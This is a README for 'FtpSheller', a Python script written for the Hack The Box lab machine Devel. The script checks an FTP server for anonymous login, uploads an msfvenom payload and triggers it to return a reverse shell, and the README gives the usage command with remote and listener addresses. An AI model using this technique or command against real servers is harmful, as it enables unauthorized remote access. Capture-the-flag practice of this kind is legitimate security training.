 # FtpSheller

**What is this?**
I made this script for fun for getting a shell on one of the machines at www.hackthebox.eu called Devel.
It'll check for anonymous login on the FTP server. If that's allowed it'll craft a payload and store it on the FTP server.
Then it'll trigger the payload, returning a shell to you.

There's still a bunch of stuff I'd like to do, so consider this a beta release.

Hit me up on NetSecFocus' slack if you have any suggestions! I'd love to hear them.

**Prerequisites:**
- Python 2.7
- Curl
- Msfvenom


**How to:**
Download nc.py and FtpSheller.py.
Run it by specifying the RHOST, LHOST, LPORT and PayloadType, e.g.:

python FtpSheller.py --rhost 10.10.10.5 --lhost <your IP> --lport 4444 --payloadType aspx

If all goes well you'll be given a reverse shell!

